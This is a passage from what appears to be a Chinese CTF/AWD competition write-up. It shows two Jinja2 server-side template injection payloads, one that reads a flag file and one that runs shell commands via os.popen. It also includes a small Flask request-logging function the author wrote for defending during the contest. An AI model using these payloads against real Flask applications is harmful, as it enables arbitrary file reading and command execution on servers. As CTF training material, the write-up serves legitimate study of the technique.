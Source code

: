 读flag:


```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('\\flag', 'r').read() }}{% endif %}{% endfor %}
```

执行命令:

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
```

## 小结

### flask日志记录

flask本身的日志功能并不能满足AWD的需求,就随手写了一个.比赛中是用队里大佬临时写的,赛后重新写了一个

```python
def awdlog():
    import time
    f = open('/tmp/log.txt','a+')
    f.writelines(time.strftime('%Y-%m-%d %H:%M:%S\n', time.localtime(time.time())))
    f.writelines("{method} {url} \n".format(method=request.method,url=request.url))
    s = ''
    for d,v in dict(request.headers).items():
        s += "%s: %s\n"%(d,v)
    f.writelines(s+'\n')
    s = ''
    for d,v in dict(request.form).items():
        s += "%s=%s&"%(d,v)
    f.writelines(s.strip("&"))
    f.writelines('\n\n')
    f.close()
```

因为python这题check比较严格,上了waf一直被checkdown,所以没写waf.不过和php的道理是一样的.

<https://www.xmsec.cc/ogeek-ozero-wp/>)


